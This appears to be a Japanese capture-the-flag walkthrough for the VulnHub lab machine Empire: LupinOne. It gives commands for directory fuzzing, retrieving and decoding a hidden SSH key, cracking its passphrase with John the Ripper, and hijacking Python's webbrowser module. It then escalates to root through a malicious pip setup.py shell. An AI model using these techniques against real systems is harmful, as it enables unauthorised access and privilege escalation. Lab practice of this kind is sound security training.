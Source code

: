 ## LupinOne

### ポートスキャンまで同じ
- 22,80

### 画像を調べる
- ステガノグラフィを調べる

### robots.txtを見る
- `curl http://$IP/robots.txt` 
- ヒントは`/~myfiles`で、ディレクトリの初めに~がついていることがわかる

### 隠しディレクトリを探す
- `wfuzz -c -z file,/home/user/vulnhub/SecLists-master/Discovery/Web-Content/raft-large-directories.txt  --hc 404 "http://$IP/~FUZZ/"`
  - `-c`でカラー表示
  - `-z file,`は辞書の指定だが、わかりにくいので`-w`でいい
- 見つかったファイルは`secret` `myfiles`、時間が長いので2つ見つけたら止める
- (別解)
- `gobuster fuzz -u http://$IP/~FUZZ -w /usr/share/wordlists/dirb/common.txt -b 404`
  - `secret` 異なる辞書を使っている 

### サイトを見る
- 見つけたリンクでサイトを確認する。使われているであろう、ユーザ名がわかる

### さらに隠しファイルを探すが、その前に辞書を整理する
- wfuzzの特性上`#`も200(成功)に反応するので、`#`を辞書から削除する
  - `#`はフラグメント識別子と言って、サイト内の特定の場所に移動できる  
- `grep -v '^\s*#' /usr/share/wordlists/rockyou.txt > ./custom_rockyou.txt`
  - `-v`は`'^\s*#'`以外の正規表現を抜き出す
  -  `^#`は単語の最初が#であるのを抽出
  - `\s`はスペースのことで`\s*`はスペースが０以上あるものを抽出 

### 隠しファイルを探す
- 本来は辞書のファイルを使うが、ここで欲しいのは秘密鍵のファイルで拡張子が`.txt`なので、上で作った、パスワードファイルのrockyou.txtを使う
- また隠れファイルなので頭に`.`をつける
- `wfuzz -c -z file,./custom_rockyou.txt --hc 400,404 "http://$IP/~secret/.FUZZ.txt"`
  - `--hc`statusの400,404は表示させない 
- (別解)
- `gobuster fuzz -u http://$IP/~secret/.FUZZ -w /usr/share/wordlists/rockyou.txt -b 404`
### textのダウンロード
- `curl http://$IP/~secret/.mysecret.txt > .mysecret2.txt`
- コピーする
- CyberChefでペーストして、searchにbase58と入力する。Base58でデコード(復号)する。そして、コピーする
- `cat > key`で貼り付ける。注意するのは、ペーストしたら改行してから、`ctrl + c`で抜ける
- Permissionを変更する
  - `chmod 700 key`
  - なぜか`chmod 777 key`にするとsshが繋がらない

### パスフレーズの解析
- sshのパスフレーズを解析するのにssh2johnを使うが、Evilboxの時と同じように改良する
- `github johntheripper bleeding-jumbo ssh2john py`で検索したコードをコピーする
- `cat > ssh2john_v2.py` ペーストする。注意点は改行してから`ctrl + c`で抜けること
- `chmod +x ssh2john_v2.py`
- john the ripperで使えるようにフォーマットを変換する
  -  `python3 ssh2john_v2.py key > passphrase.txt`
- 暗号解析
  - `john passphrase.txt -wordlist=/usr/share/wordlists/fasttrack.txt`
- パスフレーズが取得できる
  - `P@55w0rd!` 

### sshでアクセス
- `ssh -i key icex64@$IP`
  - パスフレーズの入力 

### システム内の調査
- `sudo -l`
  - `(arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py`
- arseneは　パスワードなしで/home/arsene/heist.pyファイルが実行できることがわかる
- heist.pyの中身を見る、これが何をしているか？
- 本来なら、このpyファイルに書き込みたいが、できないのでwebbrowser関数の中に書き込む

### 攻撃アプローチ
- webbrowserがどこにあるか調べる
  - `locate webbrowser`
- webbrowserファイルを開く
  -  `nano /usr/lib/python3.9/webbrowser.py`
  -  import osの下に`os.system("/bin/bash")`を書き込む


### 別ユーザで権限取得
- `sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py`
- arseneが使えるルートコマンドを調べる
  - `sudo -l` 
- pipコマンドが使える。GTFOBinsのSudoの部分を参考にする。pipはPythonのモジュールをインストールできるコマンド。なので、架空のモジュールを作ってpipを利用する
- 一時的なディレクトリを作って、そこにルートコマンドになれるpythonのセットファイルを作る
  - `cd /tmp`
  - `TF = $(mktemp -d)`
  - `echo $TF`
  - `echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh < $(tty) > $(tty) 2> $(tty)')" > $TF/setup.py`
  - `ls $TF`
  - `sudo pip install $TF`
### ルートフラグの取得
- ルートシェルを奪取できた
- `cd /root`
- `cat root.txt`

## ファイルのインポート
- Lupinを落とすと、3つのファイルがある。vmdk拡張子はvmwareというvirtualBoxとは異なる仮想環境なので、いつもと異なる方法でインポートする
- メニューのファイルから`仮想アプライアンスのインポート`を選ぶ、ファイルのところに`Empire_LupinOne.ovf`を指定して次へボタンを押す
  - `.ovf`ファイルは設定ファイル  
- 仮想マシン名に名前をつける、仮想ディスクイメージに`Empire_LupinOne-disk1.vmdk`ファイルが確認して、Macアドレスのポリシーで`すべてのネットワークアダプタのMACアドレスを含む`を確認してインポートする
- ネットワークをホストオンリーアダプタにする

